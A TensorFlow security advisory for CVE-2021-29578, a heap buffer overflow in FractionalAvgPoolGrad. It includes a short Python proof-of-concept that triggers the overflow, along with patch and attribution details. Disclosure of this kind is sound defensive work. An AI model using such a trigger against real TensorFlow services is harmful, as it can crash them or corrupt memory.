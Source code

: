 ## TFSA-2021-067: Heap buffer overflow in `FractionalAvgPoolGrad`

### CVE Number
CVE-2021-29578

### Impact
The implementation of `tf.raw_ops.FractionalAvgPoolGrad` is vulnerable to a heap
buffer overflow:

```python
import tensorflow as tf

orig_input_tensor_shape = tf.constant([1, 3, 2, 3], shape=[4], dtype=tf.int64)
out_backprop = tf.constant([2], shape=[1, 1, 1, 1], dtype=tf.int64)
row_pooling_sequence = tf.constant([1], shape=[1], dtype=tf.int64)
col_pooling_sequence = tf.constant([1], shape=[1], dtype=tf.int64)


tf.raw_ops.FractionalAvgPoolGrad(
  orig_input_tensor_shape=orig_input_tensor_shape, out_backprop=out_backprop,
  row_pooling_sequence=row_pooling_sequence,
  col_pooling_sequence=col_pooling_sequence, overlapping=False)
```

The
[implementation](https://github.com/galeone/tensorflow/blob/dcba796a28364d6d7f003f6fe733d82726dda713/tensorflow/core/kernels/fractional_avg_pool_op.cc#L216)
fails to validate that the pooling sequence arguments have enough elements as
required by the `out_backprop` tensor shape.

### Patches
We have patched the issue in GitHub commit
[12c727cee857fa19be717f336943d95fca4ffe4f](https://github.com/galeone/tensorflow/commit/12c727cee857fa19be717f336943d95fca4ffe4f).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
